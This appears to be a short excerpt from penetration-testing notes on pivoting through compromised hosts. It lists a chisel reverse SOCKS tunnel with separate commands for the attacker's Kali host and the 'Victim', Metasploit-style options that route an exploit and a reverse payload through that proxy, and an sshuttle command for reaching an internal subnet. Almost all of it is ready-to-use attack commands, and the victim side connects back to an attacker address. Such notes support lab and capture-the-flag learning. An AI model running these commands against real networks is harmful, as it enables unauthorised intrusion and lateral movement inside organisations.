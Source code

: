 [On Kali]
```bash
chisel server -p 8080 --reverse
```
[On Victim]
```powershell
chisel.exe client 10.10.14.91:8080 R:socks
```
Exploit a vulnerability through SOCKS
```bash
set lhost 10.10.14.91

set rhost 10.9.15.11

set lport 8443

set proxies socks5:127.0.0.1:1080

set payload ……

set reverseallowproxy true

run
```

### SSHuttle
```bash
sshuttle -r bob@172.16.90.197 172.16.90.1/24
```
